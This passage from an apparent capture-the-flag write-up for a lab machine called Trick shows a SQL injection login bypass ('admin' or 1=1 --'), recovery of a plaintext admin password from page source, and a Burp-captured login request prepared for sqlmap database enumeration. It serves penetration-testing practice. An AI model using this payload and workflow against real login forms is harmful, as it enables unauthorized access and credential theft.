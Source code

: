 After trying the standard basic SQL injections, we find that using `admin' or 1=1 --`  as the username and anything as the password works!

![trick_4](./attachments/trick_4.png)
![trick_5](./attachments/trick_5.png|trick_5.png)

"Users" tab on the admin panel provides a function to edit user's properties including password.

```html
<input type="password" name="password" id="password" class="form-control" value="SuperGucciRainbowCake" required="">
```
With developer tool, I could read the plain text of the admin user `Enemigosss` password : `SuperGucciRainbowCake`

To enumerate its database, let's try using `sqlmap`.
First, using `Burpsuite` I captured and saved the login request.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat req.txt   
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://preprod-payroll.trick.htb
Connection: keep-alive
Referer: http://preprod-payroll.trick.htb/login.php
Cookie: PHPSESSID=pl6dk0mbm0ksc1bl3l8atu2m62

username=*&password=test
```
